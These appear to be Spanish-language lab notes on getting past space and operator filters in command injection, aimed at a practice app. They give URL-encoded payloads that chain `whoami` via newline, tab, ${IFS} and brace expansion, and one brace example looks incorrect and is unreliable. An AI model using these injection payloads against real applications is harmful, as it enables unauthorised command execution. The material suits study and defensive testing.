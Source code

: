 
---
# **Bypassing de Filtros de Espacios en Inyección de Comandos**

Las aplicaciones pueden implementar filtros para bloquear intentos de inyección de comandos, pero existen múltiples maneras de evadir estos filtros. Un ejemplo común es el **bloqueo del espacio ( ) en la entrada**. Sin embargo, existen varias técnicas para inyectar comandos sin usar un espacio explícito.

---

## **1. Bypass de operadores bloqueados**

Si la aplicación bloquea operadores como `;`, `&&` o `||`, se puede probar el **carácter de nueva línea (`%0a`)**, que suele ser permitido.

Ejemplo de payload:

```
127.0.0.1%0awhoami
```

Si se obtiene salida, significa que el carácter de nueva línea no está bloqueado y se puede usar para separar comandos.

---

## **2. Métodos para evadir la restricción de espacios**

Si el espacio está bloqueado, se pueden usar las siguientes alternativas:

### **a) Uso de Tabs (`%09`)**

Los sistemas operativos interpretan **tabulaciones (`\t` o `%09`)** como separadores válidos entre argumentos.

Ejemplo de bypass con tabulación:

```
127.0.0.1%0a%09whoami
```

Si funciona, significa que la aplicación solo bloquea el espacio, pero no otros caracteres equivalentes.

---

### **b) Uso de la variable `$IFS`**

`$IFS` es una variable de entorno en Linux que representa el delimitador de campos internos (**espacio, tabulación y nueva línea**). Puede usarse para reemplazar los espacios.

Ejemplo de payload con `$IFS`:

```
127.0.0.1%0a${IFS}whoami
```

El sistema automáticamente reemplazará `${IFS}` por un espacio, permitiendo la ejecución del comando.

---

### **c) Uso de Brace Expansion (`{}`)**

Bash permite la **expansión de llaves (`{}`)**, que genera automáticamente espacios entre los argumentos.

Ejemplo de ejecución local:

```bash
{ls,-la}
```

Salida esperada:

```
total 0
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 07:37 .
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 13:01 ..
```

Aplicado a la inyección:

```
127.0.0.1%0a{whoami}
```

Si funciona, significa que el filtro bloquea los espacios explícitos pero permite **brace expansion**.

---

## **3. Exploración de más técnicas**

Para descubrir más métodos de evasión:

- **Explorar técnicas en "PayloadsAllTheThings"** (repositorio con payloads de inyección).
- **Combinar diferentes técnicas** (ejemplo: `IFS` + brace expansion).
- **Analizar cómo responde la aplicación a diferentes payloads** en **Burp Suite**.

---

### **Ejercicio**

1. **Probar los diferentes bypasses** en la aplicación **Host Checker**.
2. **Registrar cuáles funcionan y cuáles no**.
3. **Buscar nuevas técnicas en fuentes externas**.

Este conocimiento es clave tanto para la **explotación de vulnerabilidades** como para su **mitigación en entornos seguros**.